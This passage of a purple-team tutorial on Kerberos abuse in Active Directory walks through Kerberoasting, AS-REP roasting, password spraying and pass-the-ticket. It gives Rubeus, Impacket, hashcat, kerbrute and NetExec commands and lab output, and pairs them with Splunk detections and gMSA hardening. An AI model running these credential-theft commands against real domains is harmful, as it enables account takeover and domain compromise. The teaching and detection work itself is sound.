             | 4. Offline Dictionary Attack (Hashcat / JtR)
             v
[ Plaintext Password Recovered without Touching the Domain Controller ]
```

This creates an inherent security trade-off:
1. **Any valid domain account** (even a low-privileged contractor or compromised domain workstation) has permission to query Active Directory LDAP and request a service ticket for any registered SPN.
2. The KDC does not check whether the requesting user is authorized to use the service; authorization is checked by the application **after** the ticket is presented.
3. The KDC encrypts the service ticket using the password hash of the service account.
4. The requesting user receives this encrypted blob across the network.
5. The user can extract the encrypted blob from memory, save it to a file, take it to an isolated GPU cracking rig, and execute offline brute-force attacks at billions of guesses per second.

This attack technique is known globally as **Kerberoasting**.

---

# 13. Kerberoasting — Attack Architecture

MITRE ATT&CK classifies Kerberoasting as **Technique T1558.003** under the Credential Access tactic.



### Why Kerberoasting is Not an Exploit
Kerberoasting does not exploit a software flaw, buffer overflow, or memory corruption bug. It is an **abuse of designed protocol functionality**. The KDC is behaving strictly according to RFC 4120 specifications. 

The security vulnerability arises from the combination of:
1. Permissive service ticket issuance to any authenticated user.
2. The use of weak, human-chosen passwords on service accounts.
3. The lack of anomalous ticket request monitoring on Domain Controllers.

---

# 14. Why RC4-HMAC Matters (etype 23 / 0x17)

When Kerberos issues a service ticket, it selects a symmetric cipher supported by both the KDC and the target service account. Kerberos encryption types (`etypes`) are assigned numeric identifiers:

| Identifier | Hex Value | Encryption Algorithm | Key Derivation Method | Cracking Speed (GPU) |
| :--- | :--- | :--- | :--- | :--- |
| **`23`** | `0x17` | **RC4-HMAC-MD5** | Direct **NT Hash** (`MD4(UTF-16LE(pass))`) | **Extremely Fast** (>1.5 GH/s) |
| **`17`** | `0x11` | **AES128-CTS-HMAC-SHA1-96** | PBKDF2 (4,096 iterations + salt) | Moderate (~15 MH/s) |
| **`18`** | `0x12` | **AES256-CTS-HMAC-SHA1-96** | PBKDF2 (4,096 iterations + salt) | Slow (~5 MH/s) |

### The Cryptographic Flaw of RC4
For RC4-HMAC (`etype 23`), the symmetric key used to encrypt the ticket is derived directly from the service account's **NT hash**:

$$\text{Key}_{\text{RC4}} = \text{MD4}(\text{UTF-16LE}(\text{Password}))$$

Because there is no cryptographic salt or computational key stretching (like PBKDF2 or bcrypt), an offline attacker can test billions of password candidates per second on a modern GPU. Attack tools specifically request RC4 encryption (`/tgtdeleg` or downgrade flags) when kerberoasting to guarantee the extraction of RC4-formatted hashes.

---

# 15. Modern AES Changes the Picture (AES128 & AES256)

Modern Active Directory environments enforce AES128 and AES256 encryption for Kerberos. 

When a ticket is encrypted with AES:
1. The key derivation function uses **PBKDF2-HMAC-SHA1** with 4,096 iterations.
2. The key derivation incorporates a **salt** consisting of the realm name concatenated with the account username (e.g., `CORP.LOCALsvc_sql`).

$$\text{Key}_{\text{AES}} = \text{PBKDF2}(\text{Password}, \text{Salt}=\text{REALM} \parallel \text{Username}, \text{Iterations}=4096, \text{KeyLen})$$

### Does AES Prevent Kerberoasting?

> [!WARNING]
> **No.** AES does not prevent Kerberoasting. 
> 
> A common misconception is: *"We enabled AES256, so we are safe from Kerberoasting."* 
> 
> AES significantly slows down the offline cracking rate (reducing guessing speed from 1,500,000,000 hashes/sec down to 5,000,000 hashes/sec on an RTX 4090). However, if the service account has a weak or predictable password (e.g., `Summer2025!`, `Password123`, `CompanyDB2024`), Hashcat will still recover the plaintext password within minutes or hours.

The only true defense is ensuring service accounts possess **cryptographically uncrackable passwords** (such as gMSAs) or removing unnecessary SPNs.

---

# 16. The Kerberos Attack Family (MITRE ATT&CK T1558)

Kerberoasting is one member of a larger family of Kerberos abuse techniques mapped under MITRE ATT&CK **T1558 (Steal or Forge Kerberos Tickets)**:



* **T1558.001 (Golden Ticket):** Attacker steals the domain's `krbtgt` password hash and creates arbitrary, self-signed TGTs granting enterprise-wide Domain Admin persistence for up to 10 years.
* **T1558.002 (Silver Ticket):** Attacker compromises a single service account's hash and creates forged TGS tickets for that specific service without contacting the KDC.
* **T1558.003 (Kerberoasting):** Requesting TGS tickets for SPN user accounts and cracking them offline.
* **T1558.004 (AS-REP Roasting):** Requesting AS-REP tickets for user accounts that have Kerberos pre-authentication disabled and cracking the returned encrypted timestamp offline.
* **T1558.005 (Ticket Extraction / Ccache):** Stealing valid tickets directly from operating system memory (`LSASS.exe` via Mimikatz/Rubeus) or file caches (`/tmp/krb5cc_*` on Linux).

---

# 17. The Kerberos Tool Ecosystem

Security professionals leverage a specialized arsenal to inspect, test, and defend Kerberos:

| Tool | Ecosystem | Primary Operational Capabilities |
| :--- | :--- | :--- |
| **Rubeus** | Windows (C#) | In-memory ticket requests, Kerberoasting, AS-REP roasting, Pass-the-Ticket, S4U delegation, ticket renewal |
| **Impacket** | Linux (Python) | Protocol-level AD interaction: `GetUserSPNs.py`, `GetNPUsers.py`, `ticketer.py`, `secretsdump.py` |
| **Kerbrute** | Cross-Platform (Go) | Rapid Kerberos pre-auth user enumeration, password spraying, and brute forcing without lockout |
| **NetExec (nxc)** | Linux (Python) | Multi-protocol network execution using Kerberos credentials (`-k`) or existing ticket caches (`--use-kcache`) |
| **Mimikatz** | Windows (C) | Dumping Kerberos tickets from LSASS (`sekurlsa::tickets`), forging Golden/Silver tickets |
| **klist** | Windows Native | Displaying and purging cached Kerberos tickets (`klist`, `klist purge`) |
| **setspn** | Windows Native | Querying, adding, and deleting SPN records in Active Directory |
| **Wireshark** | Cross-Platform | Deep packet inspection of Kerberos ASN.1 structures (`kerberos` display filter) |
| **Hashcat** | Cross-Platform | Ultra-high-speed GPU cracking of Kerberoast (mode 13100) and AS-REP (mode 18200) hashes |
| **John the Ripper** | Cross-Platform | Multi-threaded CPU password auditing with custom mangling rules (`krb5tgs`, `krb5asrep`) |
| **BloodHound** | Cross-Platform | Graphing identity relationships, identifying Kerberoastable paths to Domain Admin |

---

# 18. Rubeus — The Windows Operator's Swiss Army Knife

Developed by HarmJ0y and the SpecterOps team, **Rubeus** is the industry-standard C# toolset for raw Kerberos interaction and abuse on Windows.

### Core Capabilities
* **`asktgt` / `asktgs`:** Manually request TGTs and service tickets.
* **`kerberoast`:** Automated SPN discovery, ticket requests, and hash extraction.
* **`asreproast`:** Automated discovery and extraction of accounts with pre-auth disabled.
* **`triage` / `dump`:** Enumerate and export all Kerberos tickets across all active logon sessions in memory.
* **`ptt` (Pass-the-Ticket):** Inject captured `.kirbi` tickets directly into the current session.
* **`s4u`:** Execute Service-for-User (S4U2Self & S4U2Proxy) delegation abuse.
* **`monitor`:** Continuously monitor memory and harvest newly created Kerberos tickets as users log in.

---

# 19. Rubeus Kerberoasting Hands-On

In an authorized assessment, Rubeus can execute targeted or enterprise-wide Kerberoasting directly from memory (via Cobalt Strike `execute-assembly` or a local administrative prompt).

### Standard Execution

```cmd
:: Kerberoast all user accounts with SPNs in the current domain
Rubeus.exe kerberoast
```

### Targeted Execution (High OPSEC)
Requesting tickets for every SPN in a domain triggers massive SIEM alert spikes. Professional operators target specific high-value accounts:

```cmd
:: Target a specific SPN
Rubeus.exe kerberoast /spn:"MSSQLSvc/sql01.corp.local:1433"

:: Target a specific service user
Rubeus.exe kerberoast /user:"svc_sql"

:: Output hashes directly to a text file for cracking
Rubeus.exe kerberoast /user:"svc_backup" /outfile:"C:\Temp\svc_backup.hash"
```

### Requesting RC4 Encryption
To extract fast-cracking RC4 hashes (`etype 23`) even in environments where AES is supported:

```cmd
Rubeus.exe kerberoast /rc4opsec
```

> [!CAUTION]
> The `/rc4opsec` switch performs an LDAP query first to see if AES is supported. If AES is supported, it attempts to avoid requesting RC4 if it would generate an encryption downgrade alert on the DC.

---

# 20. Impacket — The Linux/Python Powerhouse

For Linux-based penetration testers and purple teams operating from Kali Linux, Fortra's **Impacket** provides the most reliable AD protocol suite.

### Key Kerberos Scripts

```text
/usr/share/doc/python3-impacket/examples/
  ├── GetUserSPNs.py      <- Kerberoasting discovery & TGS hash extraction
  ├── GetNPUsers.py       <- AS-REP Roasting for pre-auth disabled accounts
  ├── getTGT.py           <- Request TGT using password / NT hash / AES key
  ├── getST.py            <- Request Service Ticket using an existing TGT
  ├── ticketer.py         <- Golden / Silver / Diamond ticket generator
  └── findDelegation.py   <- Enumerate unconstrained, constrained & RBCD accounts
```

---

# 21. GetUserSPNs.py Deep Dive

`GetUserSPNs.py` queries Active Directory via LDAP to discover user accounts with registered SPNs and requests service tickets.

### How it Works Internally:
1. Connects to LDAP (port 389 or 636) and authenticates using provided domain credentials.
2. Executes a targeted LDAP search filter:
   ```ldap
   (&(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))
   ```
   * `servicePrincipalName=*`: Account must have at least one registered SPN.
   * `!(cn=krbtgt)`: Exclude the core Kerberos service account.
   * `!(userAccountControl...:=2)`: Exclude disabled accounts (`ACCOUNTDISABLE` bit flag).
3. Parses the `sAMAccountName`, `servicePrincipalName`, `MemberOf`, and `pwdLastSet` attributes.
4. If `-request` is specified, it constructs a standard `TGS-REQ` to the KDC for each discovered SPN.
5. It extracts the encrypted ticket cipher from `TGS-REP` and formats it as a Hashcat-compatible digest.

---

# 22. Practical GetUserSPNs Lab: Enumeration

### Step 1: Reconnaissance (No Tickets Requested)

In our authorized lab environment:
* **Domain:** `corp.local`
* **Domain Controller IP:** `10.10.10.10`
* **Test Credentials:** `alice` / `LabPassword123!`

```bash
GetUserSPNs.py corp.local/alice:'LabPassword123!' -dc-ip 10.10.10.10
```

```text
Impacket v0.12.0 - Copyright Fortra, LLC

ServicePrincipalName             Name        MemberOf                                           PasswordLastSet
-------------------------------- ----------- -------------------------------------------------- -------------------
MSSQLSvc/sql01.corp.local:1433  svc_sql     CN=SQL Admins,OU=Services,DC=corp,DC=local         2026-03-12 11:22:04
HTTP/web01.corp.local           svc_web     CN=Web Operators,OU=Services,DC=corp,DC=local      2026-04-01 14:15:30
CIFS/backup01.corp.local        svc_backup  CN=Domain Admins,CN=Users,DC=corp,DC=local         2026-01-05 08:44:12
```

### Strategic Analysis:
* `svc_sql`: Standard service account.
* `svc_web`: Standard service account.
* `svc_backup`: **CRITICAL FINDING.** This user account is a member of `CN=Domain Admins`. If this account's service ticket is cracked, the attacker immediately achieves full domain compromise.

---

# 23. Practical GetUserSPNs Lab: Requesting TGS Material

Once high-value SPNs are identified, append the `-request` flag to command the KDC to issue service tickets:

```bash
GetUserSPNs.py corp.local/alice:'LabPassword123!' -dc-ip 10.10.10.10 -request
```

```text
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting TGS for: MSSQLSvc/sql01.corp.local:1433
[*] Requesting TGS for: HTTP/web01.corp.local
[*] Requesting TGS for: CIFS/backup01.corp.local
$krb5tgs$23$*svc_backup$corp.local*$CIFS/backup01.corp.local*$7a4b82d90ef...
```

The output string beginning with `$krb5tgs$23$` represents the service ticket formatted for offline cryptanalysis.

---

# 24. Saving and Managing Roast Output

To prepare the hashes for GPU cracking clusters without terminal formatting corruptions, redirect output directly to a file:

```bash
GetUserSPNs.py corp.local/alice:'LabPassword123!' \
  -dc-ip 10.10.10.10 \
  -request \
  -outputfile kerberoast_hashes.txt
```

Verify the captured hash structure:

```bash
head -n 2 kerberoast_hashes.txt
```

```text
$krb5tgs$23$*svc_sql$corp.local*$MSSQLSvc/sql01.corp.local:1433*$5d81b491a27e...
$krb5tgs$23$*svc_backup$corp.local*$CIFS/backup01.corp.local*$9c18f3a02bb4...
```

---

# 25. Offline Password Cracking: Hashcat & John the Ripper

Now that the encrypted service ticket is saved on disk, the assessment transitions from the target network to an offline password recovery environment.

### Hashcat Cracking (GPU Accelerated)

Hashcat supports both legacy RC4 and modern AES Kerberos tickets:

| Hashcat Mode | Kerberos Structure | Description |
| :--- | :--- | :--- |
| **`13100`** | Kerberos 5, etype 23, TGS-REP | Standard RC4-HMAC Kerberoasting |
| **`19600`** | Kerberos 5, etype 17, TGS-REP | Modern AES128-CTS-HMAC-SHA1-96 |
| **`19700`** | Kerberos 5, etype 18, TGS-REP | Modern AES256-CTS-HMAC-SHA1-96 |
| **`18200`** | Kerberos 5, etype 23, AS-REP | AS-REP Roasting (Pre-auth disabled) |

```bash
# Dictionary Attack with RockYou against RC4 Kerberoast Hashes
hashcat -m 13100 -a 0 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -o cracked_services.txt
```

```bash
# Rule-Based Attack using OneRuleToRuleThemAll
hashcat -m 13100 -a 0 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

### John the Ripper Cracking (CPU Multi-Core)

```bash
# Audit hashes using John the Ripper
john --format=krb5tgs kerberoast_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# View cracked passwords
john --format=krb5tgs kerberoast_hashes.txt --show
```

```text
svc_backup:Winter2024!:corp.local:CIFS/backup01.corp.local:corp.local

1 password hash cracked, 0 left
```

---

# 26. Why Offline Cracking is Dangerous

The critical danger of Kerberoasting lies in the privilege escalation cascade:

```mermaid
flowchart LR
    LowPriv["1. Low-Priv User\n(Contractor / Phished User)"] --> SPN["2. Enumerate SPNs\n(Active Directory LDAP)"]
    SPN --> TGS["3. Request TGS\n(Legitimate KDC Request)"]
    TGS --> Offline["4. Offline Cracking\n(Hashcat Mode 13100)"]
    Offline --> Pass["5. Cracked Password\n('Winter2024!')"]
    Pass --> DA["6. Full Domain Admin\n(svc_backup is Domain Admin)"]
    DA --> DCComp["7. Total Forest Compromise\n(NTDS.dit Dump / Golden Ticket)"]

    style LowPriv fill:#1e293b,stroke:#06b6d4,color:#fff
    style SPN fill:#1e293b,stroke:#3b82f6,color:#fff
    style TGS fill:#1e293b,stroke:#f59e0b,color:#fff
    style Offline fill:#1e293b,stroke:#ef4444,color:#fff
    style Pass fill:#1e293b,stroke:#10b981,color:#fff
    style DA fill:#7f1d1d,stroke:#ef4444,stroke-width:2px,color:#fff
    style DCComp fill:#7f1d1d,stroke:#b91c1c,stroke-width:2px,color:#fff
```



Because the cracking stage occurs entirely offline on an external machine:
* The Domain Controller's **Account Lockout Policy does not apply**. Attackers can test billions of passwords without locking out the service account.
* No additional network traffic is generated towards the target domain during the cracking phase.
* If the service account has domain-level privileges, the security boundary of the entire Active Directory forest collapses.

---

# 27. AS-REP Roasting: Mechanics & Differentiation

While Kerberoasting targets **Service Tickets (TGS)**, **AS-REP Roasting** targets the initial **Authentication Ticket (AS-REP)**.

```text
+-----------------------------------------------------------------------------------------+
|                         KERBEROASTING vs AS-REP ROASTING                                |
+-------------------------------+---------------------------------------------------------+
|  KERBEROASTING (T1558.003)    |  AS-REP ROASTING (T1558.004)                            |
+-------------------------------+---------------------------------------------------------+
|  - Targets Service Accounts   |  - Targets User Accounts with Pre-Auth Disabled         |
|  - Requires valid domain auth |  - Requires NO credentials (can query unauthenticated)  |
|  - Ticket: TGS (Service)      |  - Ticket: AS-REP (TGT payload)                         |
|  - Encrypted with Service Key |  - Encrypted with Target User's Password Key            |
|  - Hashcat Mode: 13100 / 19600|  - Hashcat Mode: 18200                                  |
+-------------------------------+---------------------------------------------------------+
```

### The Vulnerability: DONT_REQ_PREAUTH
When an administrator checks the box *"Do not require Kerberos preauthentication"* on a user account in Active Directory:
1. The KDC stops demanding an encrypted timestamp (`PA-ENC-TIMESTAMP`) before issuing an `AS-REP`.
2. Anyone on the network can send an `AS-REQ` for that username.
3. The KDC immediately replies with an `AS-REP` containing data encrypted with that user's password key.
4. The attacker cracks this response offline.

---

# 28. GetNPUsers.py: Practical AS-REP Roasting

Impacket's `GetNPUsers.py` automatically discovers accounts with pre-auth disabled and extracts their hashes:

```bash
# Query domain for all users without pre-authentication
GetNPUsers.py corp.local/alice:'LabPassword123!' -dc-ip 10.10.10.10 -request -outputfile asrep_hashes.txt
```

If you do not have valid domain credentials, you can provide a list of prospective usernames:

```bash
GetNPUsers.py corp.local/ -usersfile users.txt -dc-ip 10.10.10.10 -format hashcat -outputfile asrep_hashes.txt
```

### Cracking AS-REP Hashes (Hashcat Mode 18200)

```bash
hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

# 29. Kerbrute: User Enumeration & Password Spraying

Developed in Go by Ronnie Flathers (`ropnop`), **Kerbrute** abuses Kerberos pre-authentication errors to perform rapid user enumeration and password spraying without triggering account lockout policies during discovery.

### How Kerbrute Enumerates Users:
* When Kerbrute submits an `AS-REQ` for a username:
  * **If user exists:** The KDC returns `KDC_ERR_PREAUTH_REQUIRED` (`0x19`).
  * **If user does NOT exist:** The KDC returns `KDC_ERR_C_PRINCIPAL_UNKNOWN` (`0x06`).
* Neither response increments the user's `badPwdCount` attribute. Therefore, thousands of potential usernames can be validated without locking out accounts.

```bash
# Enumerate valid Active Directory users from a wordlist
./kerbrute userenum -d corp.local --dc 10.10.10.10 /usr/share/seclists/Usernames/Names/names.txt
```

### Kerberos Password Spraying
Once valid users are identified, Kerbrute executes single-password spray attacks:

```bash
# Spray a single password across all discovered domain users
./kerbrute passwordspray -d corp.local --dc 10.10.10.10 valid_users.txt 'Autumn2026!'
```

> [!WARNING]
> While `userenum` does not increment `badPwdCount`, `passwordspray` **does** trigger failed pre-authentication (`KDC_ERR_PREAUTH_FAILED`). Spraying passwords will lock out accounts if the domain lockout threshold is exceeded.

---

# 30. NetExec: Modern Kerberos Workflows

**NetExec (nxc)** is the next-generation network assessment tool suite supporting native Kerberos authentication.

### Direct Authentication via Kerberos (`-k`)

Instead of authenticating via NTLM, force Kerberos ticket requests:

```bash
nxc smb 10.10.10.10 -u alice -p 'LabPassword123!' -d corp.local -k
```

### Leveraging an Existing Ticket Cache (`--use-kcache`)

If you have acquired a Kerberos ticket (`.ccache` on Linux or `.kirbi` on Windows converted via `ticketConverter.py`), export the environment variable and use it for pass-the-ticket:

```bash
export KRB5CCNAME=/home/kali/tickets/alice.ccache

nxc smb dc01.corp.local --use-kcache
```

NetExec will access the target host using the cached ticket without transmitting passwords or hashes across the wire.

---

# 31. Native Windows Inspection: `klist`

On any Windows endpoint, the native command `klist` displays all cached tickets for the active logon session:

```cmd
:: Display all cached tickets
klist

:: Display TGT specifics only
klist tgt

:: Purge all tickets from memory (resets Kerberos state)
klist purge
```

### Key Ticket Attributes to Inspect:
* **Client:** The principal who requested the ticket (`alice @ CORP.LOCAL`).
* **Server:** The SPN for which the ticket was granted (`cifs/FILE01.corp.local`).
* **KerbTicket Encryption Type:** The symmetric cipher used (`0x12` = AES256, `0x17` = RC4).
* **Ticket Flags:** Capabilities (`0x40e10000` = `forwardable`, `renewable`, `pre_authent`).
* **Renew Time:** The expiration deadline after which the ticket cannot be renewed.

---

# 32. Native Active Directory Administration: `setspn`

Administrators must routinely audit registered SPNs to detect unauthorized or orphaned service registrations:

```cmd
:: Find all SPNs registered in the entire Active Directory domain
setspn -T corp.local -Q */*

:: Check for duplicate SPN registrations across the domain (causes auth failures)
setspn -T corp.local -X

:: Query all SPNs assigned to a specific user or computer
setspn -L svc_backup
```

---

# 33. Wireshark: Packet-Level Protocol Dissection

To achieve true mastery of Kerberos, analyze network captures in Wireshark using the display filter:

```text
kerberos
```

```text
No.  Source         Destination    Protocol  Info
12   10.10.10.45    10.10.10.10    KRB5      AS-REQ
14   10.10.10.10    10.10.10.45    KRB5      KRB_ERROR - KDC_ERR_PREAUTH_REQUIRED (25)
16   10.10.10.45    10.10.10.10    KRB5      AS-REQ (padata: PA-ENC-TIMESTAMP)
18   10.10.10.10    10.10.10.45    KRB5      AS-REP (Ticket: krbtgt/CORP.LOCAL)
25   10.10.10.45    10.10.10.10    KRB5      TGS-REQ (sname: cifs/FILE01.corp.local)
28   10.10.10.10    10.10.10.45    KRB5      TGS-REP (Ticket: cifs/FILE01.corp.local)
35   10.10.10.45    10.10.10.20    SMB2      Session Setup Request, Kerberos, AP-REQ
```

### Essential Kerberos Error Codes:
* **`KDC_ERR_PREAUTH_REQUIRED (25 / 0x19)`:** Normal challenge sent by KDC requiring pre-authentication.
* **`KDC_ERR_PREAUTH_FAILED (24 / 0x18)`:** Invalid password provided.
* **`KDC_ERR_S_PRINCIPAL_UNKNOWN (7 / 0x07)`:** The requested SPN does not exist in Active Directory.
* **`KDC_ERR_C_PRINCIPAL_UNKNOWN (6 / 0x06)`:** The client username does not exist in Active Directory.
* **`KDC_ERR_SKEW (37 / 0x25)`:** Clock skew between client and KDC exceeds allowable threshold (5 minutes).

---

# 34. Kerberos Ports & Active Directory Dependencies

Kerberos does not function in isolation. A functional Active Directory environment relies on an integrated suite of network ports:

| Port | Protocol | Service | Role in Kerberos Authentication |
| :--- | :--- | :--- | :--- |
| **88** | TCP / UDP | **Kerberos** | Primary KDC port for `AS-REQ/REP` and `TGS-REQ/REP` exchanges |
| **464** | TCP / UDP | **kpasswd** | Kerberos password change and set operations |
| **53** | TCP / UDP | **DNS** | Locating KDC domain controllers via SRV records (`_kerberos._tcp`) |
| **389 / 636** | TCP | **LDAP / LDAPS**| Querying Active Directory database for users, groups, and SPNs |
| **445** | TCP | **SMB** | Target service for CIFS/file shares; hosts `AP-REQ` exchanges |
| **3268 / 3269**| TCP | **Global Catalog**| Forest-wide identity lookups across multidomain environments |
| **135** | TCP | **RPC Endpoint** | Remote procedure calls and DCOM management |

---

# 35. The Critical Role of DNS in Kerberos

A ubiquitous problem encountered by junior engineers and penetration testers:

> *"Port 88 is open, my credentials are valid, but Kerberos authentication fails with `KDC_ERR_S_PRINCIPAL_UNKNOWN` or `KRB_AP_ERR_NOT_US`!"*

### Why DNS is Non-Negotiable
Kerberos is **strictly name-based**, not IP-based. 

When you connect to an IP address (e.g., `\\10.10.10.20\share`), Windows defaults to **NTLM authentication** because Kerberos cannot construct an SPN from an IP address.

To use Kerberos:
1. The client must query DNS for the Domain Controller's SRV record:
   ```cmd
   nslookup -type=srv _kerberos._tcp.corp.local
   ```
2. The client must access resources using their **Fully Qualified Domain Name (FQDN)**:
   ```cmd
   dir \\FILE01.corp.local\Finance
   ```
3. Forward and reverse DNS pointers must resolve correctly. If `file01.corp.local` resolves to the wrong IP, the client requests a ticket for the wrong SPN, terminating the connection.

---

# 36. The Symbiotic Architecture: AD, LDAP, DNS & Kerberos

The complete Active Directory authentication ecosystem operates as a three-tier pipeline:

```text
+-------------------+      1. Locate KDC via SRV Records      +-------------------+
|      DNS Host     |<----------------------------------------|  Client Terminal  |
+-------------------+                                         +---------+---------+
                                                                        |
                       2. Query Accounts & SPNs (LDAP:389)              |
                       +------------------------------------------------+
                       |
                       v
            +----------------------+       3. Issue Tickets (Port 88)       +----------------------+
            |   Active Directory   |<-------------------------------------->|    Key Distribution  |
            |     (NTDS.dit)       |                                        |      Center (KDC)    |
            +----------------------+                                        +----------------------+
```

* **DNS** answers: *"Where are the Domain Controllers and servers located?"*
* **LDAP** answers: *"Which users, groups, permissions, and SPNs exist?"*
* **Kerberos** executes: *"Cryptographically authenticate the user and issue service access tickets."*

---

# 37. Kerberos Attack-Path Research: 6 Purple-Team Questions

When conducting an Active Directory security review, purple teams systematically evaluate six core questions:

```text
+-------------------------------------------------------------------------------------------------+
|                                PURPLE-TEAM KERBEROS AUDIT MATRIX                                |
+----+---------------------------------------+----------------------------------------------------+
| #  | Diagnostic Question                   | Verification Method & Tooling                      |
+----+---------------------------------------+----------------------------------------------------+
| 1  | Which accounts have registered SPNs?  | LDAP Query / GetUserSPNs.py / BloodHound           |
| 2  | Are any SPN accounts privileged?      | Check adminCount=1, Domain Admins, Backup Ops      |
| 3  | What encryption types are supported?  | Inspect msDS-SupportedEncryptionTypes (RC4 vs AES) |
| 4  | How strong are service passwords?     | Password auditing / Hashcat length benchmarks      |
| 5  | Do any accounts have pre-auth off?    | Query userAccountControl:1.2.840.113556.1.4.803:=4194304 |
| 6  | What can the service account access?  | BloodHound pathing: SQL Admin, Local Admin, WMI    |
+----+---------------------------------------+----------------------------------------------------+
```

---

# 38. The Dangerous Vulnerability Combination

A service having an SPN is **not** a vulnerability; it is standard operating procedure in Active Directory.

The catastrophe occurs when four conditions align:

```
[ Registered SPN on User Account ]
               +
[ Weak / Human-Chosen Password ('Summer2025!') ]
               +
[ Excessive Domain Privileges (Domain Admin / Local Admin) ]
               +
[ Zero SIEM Telemetry / Monitoring on Event 4769 ]
               =
💥 COMPLETE DOMAIN COMPROMISE WITHIN MINUTES
```

If any one of these pillars is removed, the attack chain collapses:
* If the password is a 120-character gMSA, the ticket cannot be cracked.
* If the account has least privilege, cracking it grants zero lateral movement.
* If the SOC monitors Event 4769, the requester is isolated before the hash is cracked.

---

# 39. SOC Telemetry & Detection: Windows Security Event Logs

Every Kerberos transaction generates structured telemetry on Windows Domain Controllers:

| Event ID | Event Description | Attack Surface & Detection Value |
| :--- | :--- | :--- |
| **`4768`** | A Kerberos authentication ticket (TGT) was requested | Initial logon auditing, AS-REP roasting detection (`PreAuthType=0`) |
| **`4769`** | A Kerberos service ticket was requested | **Primary Kerberoasting Detection:** Anomalous TGS request volume, RC4 usage |
| **`4771`** | Kerberos pre-authentication failed | **Password Spraying / Brute Force:** Tracking bad password spikes |
| **`4776`** | The domain controller attempted to validate credentials | NTLM authentication fallback auditing |
| **`4624`** | An account was successfully logged on | Logon Type 3 (Network logon) correlation following ticket presentation |

### Critical Fields in Event 4769:

```text
Event ID: 4769
Task Category: Kerberos Service Ticket Operations
TargetUserName: svc_sql @ CORP.LOCAL
ServiceName: MSSQLSvc/sql01.corp.local:1433
TicketOptions: 0x40810000
TicketEncryptionType: 0x17           <- 0x17 = RC4-HMAC (ANOMALY!)
IpAddress: ::ffff:10.10.10.45        <- Requesting Workstation IP
Status: 0x0                          <- Success
```

---

# 40. Example SOC Detection Logic & Heuristics

A high-fidelity Kerberoasting detection rule correlates four behavioral indicators:

```text
RULE: Potential Kerberoasting Activity Detected
CONDITION:
    EventCode == 4769
    AND TicketEncryptionType == "0x17"  (RC4-HMAC-MD5)
    AND ServiceName != "*$"            (Exclude Computer Accounts)
    AND ServiceName != "krbtgt"        (Exclude TGT Requests)
GROUP BY:
    Account_Name, Client_Address
THRESHOLD:
    Count(Distinct ServiceName) >= 3 within 2 minutes
ACTION:
    Trigger High-Severity Alert to SOC & Dispatch SOAR Isolation Playbook
```

---

# 41. Production Splunk Detection Engineering (SPL Queries)

### Query 1: Hunting for RC4 Kerberoasting Bursts

This Splunk query identifies accounts requesting multiple RC4-encrypted service tickets for user accounts within a 5-minute rolling window:

```splunk
index=windows EventCode=4769 TicketEncryptionType="0x17" ServiceName!="*$" ServiceName!="krbtgt"
| stats count dc(ServiceName) as distinct_services values(ServiceName) as targeted_spns by Account_Name, Client_Address, _time span=5m
| where distinct_services >= 3
| sort - distinct_services
```

### Query 2: Detecting AS-REP Roasting (Pre-Authentication Disabled)

Identifies instances where a TGT was issued without requiring pre-authentication:

```splunk
index=windows EventCode=4768 PreAuthType=0 ResultCode="0x0" TargetUserName!="*$"
| stats count values(ClientAddress) as source_ips by TargetUserName, _time span=1h
| eval Alert="Potential AS-REP Roasting against account with pre-auth disabled"
```

### Query 3: Detecting Kerberos Password Spraying (Event 4771)

Tracks spikes in failed pre-authentication attempts from a single host targeting multiple distinct usernames:

```splunk
index=windows EventCode=4771 Status="0x18"
| stats count dc(TargetUserName) as targeted_users values(TargetUserName) as user_list by IpAddress, _time span=10m
| where targeted_users >= 5
| sort - targeted_users
```

---

# 42. Detection Realism: Why "RC4 = Attack" is a Flawed Detection

A novice SOC analyst often writes:

```splunk
:: FLAWED SOC RULE - GENERATES HUNDREDS OF FALSE POSITIVES
index=windows EventCode=4769 TicketEncryptionType="0x17"
```

### Why This Fails in Production:
1. **Legacy Infrastructure:** Older enterprise applications, legacy NAS appliances, or unpatched servers may legitimately lack AES support and negotiate RC4.
2. **SCOM / Monitoring Tools:** System Center Operations Manager and enterprise monitoring agents routinely query dozens of services across an organization, triggering false volume alerts.

### High-Fidelity Behavioral Scoring:
Instead of alerting on a single boolean condition, calculate an **Anomaly Threat Score**:
* Base Score: Event 4769 with RC4 (`+20 points`)
* Volume: More than 3 unique SPNs in under 60 seconds (`+40 points`)
* Source: Workstation running Windows 11 (which natively prefers AES) (`+20 points`)
* Target: Service account has `adminCount=1` (`+30 points`)
* **Threshold: Alert SOC when Anomaly Score $\ge 70$**.

---

# 43. Purple-Team Validation Lifecycle

A complete purple-team Kerberos validation exercise follows a closed-loop verification model:



---

# 44. Defensive Hardening: AES & Password Governance

### 1. Enforce AES-Only Kerberos Encryption
Configure all service accounts to require AES128 and AES256. This disables RC4 ticket negotiation:

```powershell
# Enforce AES128 and AES256 on a service account
Set-ADUser -Identity "svc_sql" -KerberosEncryptionType AES128,AES256
```

### 2. Implement 25+ Character Passwords
Service account passwords must be randomized and at least 25 characters long. Offline cracking of a 25-character high-entropy password is computationally infeasible even across GPU clusters:

```text
Example Strong Password:
k9#mP$2vL!9xQ@zW4bN^7tR*1eY&6uJ
```

---

# 45. Group Managed Service Accounts (gMSA)

The gold standard for Windows service account security is the **Group Managed Service Account (gMSA)**.



### Why gMSAs Completely Neutralize Kerberoasting:
1. **No Human Knowledge:** Passwords are generated by Active Directory using complex 120-character strings.
2. **Automatic Rotation:** Passwords rotate automatically every 30 days.
3. **No Interactive Logon:** gMSAs cannot be used to log into an interactive desktop or RDP session.
4. **Offline Cracking Impossible:** Attempting to crack a 120-character random key in Hashcat is mathematically impossible.

### Deploying a gMSA with PowerShell:

```powershell
# Step 1: Create the KDS Root Key (Run once per forest; effective after 10 hours in prod)
Add-KdsRootKey -EffectiveImmediately

# Step 2: Create the gMSA Account in Active Directory
New-ADServiceAccount -Name "svc_sql_gmsa" `
  -DNSHostName "svc_sql_gmsa.corp.local" `
  -PrincipalsAllowedToRetrieveManagedPassword "SQLServersGroup" `
  -KerberosEncryptionType AES128,AES256

# Step 3: Install the gMSA on the target host (SQL01)
